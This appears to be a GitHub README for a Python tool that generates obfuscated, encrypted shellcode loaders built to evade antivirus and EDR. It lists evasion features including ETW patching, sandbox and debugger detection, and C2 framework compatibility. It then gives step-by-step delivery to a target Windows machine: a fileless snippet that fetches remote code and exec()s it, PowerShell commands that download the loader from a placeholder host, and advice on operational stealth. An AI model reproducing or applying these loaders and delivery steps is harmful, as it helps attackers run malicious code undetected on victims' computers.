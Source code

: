 ### Invoke-Python-ShellCodeLoader.py
--------------------------------------
'Invoke-Python-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Python script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Python)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress and LoadLibraryA)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Python script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\python-3.10.4> python.exe .\Invoke-Python-ShellCodeLoader.py ".\raw-shellcode.bin" ".\obfuscated_shellcodeloader.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Python script) on a target Windows computer

  - Option A: Utilize a portable signed Python interpreter (www.python.org) + Fileless delivery of the obfuscated shellcode loader (Python script) 
```
1 - Download the Python embeddable package (www.python.org) which provides a signed (portable) Python interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python.zip
    PS C:\temp> tar -xf .\python.zip

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Python.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://website/obfuscated_shellcodeloader.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python interpreter (www.python.org) + Download the obfuscated shellcode loader (Python script) locally before execution.
```
1 - Download the Python embeddable package (www.python.org) which provides a signed (portable) Python interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python.zip
    PS C:\temp> tar -xf .\python.zip

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.py -OutFile C:\temp\python\obfuscated_shellcodeloader.py"
    C:\temp\python> python.exe .\obfuscated_shellcodeloader.py
```
  - Option C: Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe)
    Example:
    --------
    C:\Users\auditor\Documents> pip install pyinstaller
    C:\Users\auditor\Documents>  python3 -m pip install --upgrade pip
    C:\Users\auditor\Documents\python\pyinstaller-test> python3 -m PyInstaller -F script.py -i "file.ico" --noconsole
    C:\Users\auditor\Documents\python\pyinstaller-test> dir dist
    09/04/2025  11:54 PM         5,612,531 script.exe

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    The obfuscation and encryption allow to evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
